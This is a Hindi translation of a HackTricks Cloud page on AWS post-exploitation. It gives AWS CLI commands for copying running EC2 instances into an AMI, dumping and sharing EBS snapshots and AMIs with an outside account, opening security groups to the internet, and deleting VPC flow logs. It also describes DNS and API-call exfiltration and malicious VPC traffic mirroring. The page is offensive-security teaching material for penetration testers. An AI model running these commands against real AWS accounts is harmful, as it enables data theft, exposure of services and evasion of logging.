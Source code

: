 # AWS - EC2, EBS, SSM और VPC पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## EC2 और VPC

अधिक जानकारी के लिए देखें:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **दुष्ट VPC मिरर**

VPC ट्रैफिक मिररिंग **एक VPC के भीतर EC2 इंस्टेंस के लिए इनबाउंड और आउटबाउंड ट्रैफिक की प्रतिलिपि बनाती है** बिना इंस्टेंस पर कुछ भी स्थापित करने की आवश्यकता के। यह दोहराया गया ट्रैफिक आमतौर पर विश्लेषण और मॉनिटरिंग के लिए कुछ ऐसे कुछ जैसे नेटवर्क घुसपैठ ट्रैकिंग प्रणाली (IDS) में भेजा जाता है।\
एक हमलावर इसका दुरुपयोग करके इसे सभी ट्रैफिक को कैप्चर कर सकता है और इससे संबंधित सूक्ष्मज्ञान प्राप्त कर सकता है:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### चल रहे इंस्टेंस की प्रतिलिपि

इंस्टेंस में आमतौर पर कुछ संवेदनशील जानकारी होती है। इसमें अंदर जाने के लिए विभिन्न तरीके होते हैं (जांचें [EC2 प्रिविलेज उन्नयन ट्रिक्स](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md))। हालांकि, इसमें क्या है यह जांचने का एक और तरीका है कि **एक AMI बनाएं और उससे एक नया इंस्टेंस चलाएं (अपने खाते में भी)**:
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### EBS स्नैपशॉट डंप

**स्नैपशॉट्स वॉल्यूम के बैकअप होते हैं**, जो आमतौर पर **संवेदनशील जानकारी** को शामिल करेंगे, इसलिए उन्हें जांचना इस जानकारी को खोल सकता है।
यदि आपको **स्नैपशॉट के बिना वॉल्यूम** मिलता है तो आप: **स्नैपशॉट बना सकते हैं** और निम्नलिखित कार्रवाई कर सकते हैं या बस इसे खाते के अंदर एक इंस्टेंस में **माउंट कर सकते हैं**:

{% content-ref url="../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md" %}
[aws-ebs-snapshot-dump.md](../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md)
{% endcontent-ref %}

### डेटा निकासी

#### DNS निकासी

यदि आप एक EC2 को ऐसे लॉक डाउन करते हैं कि कोई ट्रैफिक बाहर नहीं जा सकता है, तो यह अभी भी **DNS के माध्यम से निकासी कर सकता है**।

* **VPC फ्लो लॉग्स इसे रिकॉर्ड नहीं करेंगे**।
* आपके पास AWS DNS लॉग्स तक पहुंच नहीं है।
* इसे निष्क्रिय करने के लिए "enableDnsSupport" को नकारा बनाकर निम्न को निर्धारित करें:

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### API कॉल के माध्यम से निकासी

हमलावर्द अपने द्वारा नियंत्रित खाते के API एंडपॉइंट को कॉल कर सकता है। Cloudtrail इस कॉल को लॉग करेगा और हमलावर्द को Cloudtrail लॉग में निकासी डेटा देखने की क्षमता होगी।

### खुली सुरक्षा समूह

आप इस तरह के पोर्ट खोलकर नेटवर्क सेवाओं तक आगे की पहुंच प्राप्त कर सकते हैं:

{% code overflow="wrap" %}
```bash
aws ec2 authorize-security-group-ingress --group-id <sg-id> --protocol tcp --port 80 --cidr 0.0.0.0/0
# Or you could just open it to more specific ips or maybe th einternal network if you have already compromised an EC2 in the VPC
```
{% endcode %}

### SSM पोस्ट अधिकारीकरण

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### ECS को Privesc करें

एक EC2 इंस्टेंस चलाने और इसे ECS इंस्टेंस चलाने के लिए पंजीकृत करना संभव है और फिर ECS इंस्टेंस डेटा को चुरा सकते हैं।

[**अधिक जानकारी के लिए यहां देखें**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs).

### VPC फ्लो लॉग्स को हटाएं
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### AMI साझा करें

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### EBS स्नैपशॉट साझा करें

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ़ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** पर फ़ॉलो करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

